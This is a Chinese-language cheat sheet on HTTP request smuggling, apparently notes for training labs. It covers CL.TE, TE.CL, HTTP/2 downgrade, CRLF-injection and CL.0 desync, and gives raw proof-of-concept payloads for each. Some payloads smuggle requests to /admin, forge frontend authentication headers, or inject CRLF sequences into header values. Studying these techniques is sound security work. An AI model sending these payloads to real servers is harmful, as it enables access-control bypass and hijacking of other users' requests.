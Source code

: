### 传统 CL.TE

**前端 cl 正常处理，后端 te 进行截断导致残留数据。**

时间测试 poc：

```
Content-Length: 4
Transfer-Encoding: chunked

1
A
X
```

拆分测试 poc：

```
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

### 传统 TE.CL

**前端 te 正常处理，后端 cl 进行截断导致残留数据。**

时间测试 poc：

```
POST / HTTP/1.1
Host: vulnerable.com
Transfer-Encoding: chunked  # 前端按 TE 处理
Content-Length: 6          # 后端按 CL=6 处理

0\r\n
\r\n
X
```

拆分测试 poc：

```
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
X-Ignore: X

0

```

### H2.CL

**原理就是请求指定的 CL 覆盖降级计算的 CL。**

前端服务器（HTTP/2）:

```
:method	POST
:path	/example
:authority	vulnerable-website.com
content-type	application/x-www-form-urlencoded
content-length	0
POST /admin HTTP/1.1									// 从这一行开始是请求体
Host: vulnerable-website.com
Content-Length: 10

x=1
```

前端服务器处理完降级后，后端服务器接收到的（HTTP/1）：

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

POST /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1GET / H
```

### H2.TE 漏洞

**原理就是降级后的数据包被进行 TE 处理**

name

```
Foo
```

value

```
bar\r\n
Transfer-Encoding: chunked
```

body

```
0

SMUGGLED
```

### crlf 注入导致的 H2.CL

可以尝试 crlf 注入

name

```
Foo
```

value

```
bar\r\n
Content-Length: 0
```

body

```
SMUGGLED
```

### HTTP 请求隧道

就是前后端不复用连接情况下的请求走私。

##### crlf 注入导致的 H2.CL：注入可回显的 post 参数

name

```
foo: bar\r\n
Content-Length: 500\r\n
\r\n
search=x
```

value

```
xyz				# 会拼接下一个数据包，通常用于显示前端服务器添加什么标头。
```

##### HEAD 添加请求包

name

```
foo: bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
X-SSL-VERIFIED: 1\r\n
X-SSL-CLIENT-CN: administrator\r\n
X-FRONTEND-KEY: 8816555535468448\r\n
\r\n
```

value

```
xyz
```

### CL.0 漏洞

- **前端代理**：严格依赖`Content-Length`头确定请求体的结束位置。
- **后端服务器**：完全忽略`Content-Length`头，默认请求体为空（即`Content-Length: 0`）。
- 通常出现于一些静态资源。例如静态文件或服务器级重定向。

```
POST /resources/images/blog.svg HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Connection: keep-alive
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

注：所有请求走私原理上并不依赖 crlf，但可以尝试 crlf。
